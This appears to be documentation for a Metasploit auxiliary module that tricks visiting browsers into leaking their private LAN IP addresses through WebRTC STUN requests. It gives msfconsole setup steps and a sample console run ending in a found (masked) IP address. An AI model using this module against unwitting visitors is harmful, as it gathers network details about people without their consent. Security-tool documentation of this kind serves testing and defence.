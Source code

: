 ## Vulnerable Application

This module retrieves a browser's network interface IP addresses using WebRTC. However, after visiting the HTTP server, the browser can disclose a private IP address in a STUN request.

Related links : https://datarift.blogspot.in/p/private-ip-leakage-using-webrtc.html

## Verification

    Start msfconsole
    use auxiliary/gather/browser_lanipleak
    Set SRVHOST
    Set SRVPORT
    run (Server started)
Visit server URL in any browser which has WebRTC enabled

## Scenarios

```
msf auxiliary(gather/browser_lanipleak) > show options 

Module options (auxiliary/gather/browser_lanipleak):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  192.168.1.104    yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
   SRVPORT  8080             yes       The local port to listen on.
   SSL      false            no        Negotiate SSL for incoming connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)


Auxiliary action:

   Name       Description
   ----       -----------
   WebServer  


msf auxiliary(gather/browser_lanipleak) > run
[*] Auxiliary module running as background job 0.
msf auxiliary(gather/browser_lanipleak) > 
[*] Using URL: http://192.168.1.104:8080/mIV1EgzDiEEIMT
[*] Server started.

[*] 192.168.1.104: Sending response (2523 bytes)
[+] 192.168.1.104: Found IP address: X.X.X.X
```
